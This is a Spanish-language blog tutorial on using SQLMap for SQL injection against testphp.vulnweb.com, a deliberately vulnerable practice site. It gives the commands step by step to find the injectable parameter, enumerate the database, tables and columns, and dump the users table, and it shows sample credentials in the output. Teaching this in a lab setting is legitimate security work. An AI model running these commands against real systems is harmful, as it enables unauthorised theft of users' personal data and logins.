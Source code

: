 ```yaml
---
title: 'Seguridad en bases de datos con SQLMap'
description: 'Comprobando la seguridad de un sistema web con SQLMap'
date: 'Octubre 15, 2021'
image: '/images/posts/seguridad-en-bases-de-datos-con-sqlmap.jpg'
author:
  name: 'Óscar Miranda'
  image: '/images/author.png'
tags: ['Tutorial']
---
```


Prácticamente todas las aplicaciones web necesitan un modo de almacenar datos
con los que los usuarios interactúan, la solución más común es utilizar bases de
datos. Existen distintos tipos de bases de datos y uno de ellos son las BB.DD.
relacionales.

Las bases de datos relacionales pueden ser leídas o modificadas con un lenguaje
llamado SQL. Así es como muchos de los sitios web manejan su información, sin
embargo, existen algunos que no toman las suficientes medidas de seguridad y
hacen que este código SQL pueda ser fácilmente modificado por el usuario
mediante inyecciones SQL.

### ¿Qué es una inyección SQL?

Una inyección SQL consiste en aprovecharse de ciertos aspectos de la aplicación
para modificar intencionalmente el código SQL y así modificar su comportamiento.
El impacto que puede tener esto puede ser conseguir acceso no autorizado a una
página o bien conseguir toda la información de la base de datos.

Para facilitar las inyecciones SQL se puede utilizar una herramienta llamada
[SQLMap](https://sqlmap.org/) y es la que se explicará en este post.

> Este artículo no tiene como objetivo enseñar a utilizar la herramienta con
> fines maliciosos, solamente busca dar a conocer un nuevo método para comprobar
> la seguridad de un sistema propio o con fines éticos.

### ¿Cómo utilizar SQLMap?

Existen varios sitios que voluntariamente dejan vulnerabilidades para que
podamos probar nuevas herramientas y aprender sobre el hacking ético, por lo que
en este artículo se utilizará <http://testphp.vulnweb.com/listproducts.php?cat=1>,
que indica que ha dejado vulnerabilidades a propósito con fines educativos.

SQLMap puede ser utilizado en cualquier sistema operativo (requiere
[Python](https://www.python.org/)).

#### 1. Comprobar si el sitio es vulnerable

Si observamos la URL de la página podemos notar que se recibe información de
esta (hay datos después de `?`). Podemos comprobar si el argumento cat es
vulnerable con el comando:

```shell
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1
```

Al ejecutar este comando, SQLMap notará que hay un parámetro vulnerable `cat`,
por lo que intentará aprovecharlo. En algunos pasos SQLMap preguntará si se debe
omitir algunas pruebas, en este caso (dado que ya sabemos que el sitio web es
vulnerable) podemos responder que sí.

Al terminar de ejecutarse SQLMap enlistará las formas en las que se puede atacar
el sitio web.

#### 2. Verificar la bases de datos actual

Si queremos obtener más información de la base de datos actual necesitamos su
nombre, esto puede hacerse de la siguiente manera:

```shell
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --current-db
```

Este comando nos mostrará el nombre de la base de datos actual (acuart) y
podremos usarlo para obtener más datos.

#### 3. Enlistar las tablas

Se pueden enlistar las tablas existentes con el siguiente comando (_nota que se
está indicando la base de datos actual_):

```shell
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
```

El comando anterior mostrará el siguiente resultado:

```plaintext
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
```

#### 4. Enlistar columnas de una tabla

Habiendo obtenido la lista de las tablas es posible guardar todo el contenido de
estas sin restricción alguna. De hecho, hay una tabla que parece ser la más
interesante de momento, la tabla `users`, pues podría contener información de
acceso (o simplemente datos personales). Esto se puede comprobar viendo los
nombres de las columnas sin tener que pedir la información todavía:

```shell
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users
--columns
```

_Observa cómo se indica el nombre de la tabla y se pide las columnas._

SQLMap devuelve el siguiente resultado:

```plaintext
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+
```

Como se puede notar, si esta base de datos hubiera contenido datos reales habría
sido un gran problema, pues habrían sido expuestos los datos personales de los
usuarios como la dirección donde viven, sus correos electrónicos y sus números
de teléfono, dichos datos son muy valiosos para los cibercriminales (recureda
que esa no es la intención de este artículo). Además, podemos observar los
campos `uname` y `pass` que posiblemente sean los que permiten iniciar sesión.

#### 5. Listar contenido de una tabla

Vamos a verificar qué hay en la tabla anterior con el siguiente comando:

```shell
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users
--dump
```

El contenido de la tabla se muestra en pantalla y opcionalmente SQLMap permite
intentar decifrar las contraseñas incluidas (respondemos que no por el momento).

<!-- markdownlint-disable MD013 -->
```plaintext
Database: acuart
Table: users
[1 entry]
+---------+----------------------------------+------+------+----------------+-----------+-------+---------+
| cc      | cart                             | name | pass | email          | phone     | uname | address |
+---------+----------------------------------+------+------+----------------+-----------+-------+---------+
| 1234567 | 336c4f03021a2a1a046f89ffa765971d | 1}   | test | arru@gmail.com | 081234565 | test  | bekasi  |
+---------+----------------------------------+------+------+----------------+-----------+-------+---------+
```
<!-- markdownlint-enable MD013 -->

Podemos ver que los datos de acceso son visibles (uname=test, pass=test), por lo
que fácilmente podríamos iniciar sesión. También hay un campo llamado cart que
parece estar encriptado, ese se puede averiguar utilizando otras herramientas.
